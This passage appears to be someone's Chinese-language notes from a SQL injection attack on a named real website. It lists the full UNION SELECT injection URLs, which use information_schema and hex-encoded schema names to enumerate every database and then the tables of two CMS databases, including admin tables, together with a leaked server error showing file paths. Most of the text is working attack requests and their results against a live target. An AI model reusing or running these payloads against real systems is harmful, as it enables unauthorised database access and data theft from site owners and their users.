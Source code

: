 	第六个数据库: qcss

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_schema))%20from%20information_schema.tables)%20--

	上面的6个操作犯傻了，group_concat可以一次性的获取说有的数据库

	Warning: file_get_contents(D:/www/celebrate/templist/default/information_schema,duxcms,jcms,mysql,qcms,qcss) [function.file-get-contents]: failed to open stream: No such file or directory in D:\www\celebrate\inc\temp.php on line 56

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x647578636D73)%20--

	duxcms中的所有表, "duxcms"需要用二进制表示

	dc_admin
	dc_admin_group
	dc_admin_log
	dc_admin_menu
	dc_category
	dc_category_jump
	dc_category_page
	dc_content
	dc_content_data
	dc_expand_model
	dc_expand_model_field
	dc_form
	dc_form_data_guestbook
	dc_form_field
	dc_fragment
	dc_lang
	dc_model
	dc_plugin
	dc_position
	dc_position_relation
	dc_replace
	dc_tags
	dc_tags_category
	dc_tags_relation
	dc_upload


http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x6A636D73)%20--

	jcms中的所有表

	jx_announcement
	jx_article
	jx_attachment
	jx_category
	jx_comment
	jx_guestbook
	jx_keywords
	jx_link
	jx_member
	jx_model
	jx_onepage
	jx_safefunc
	jx_set
	jx_spider_rule
	jx_spider_url
	jx_updatehtml
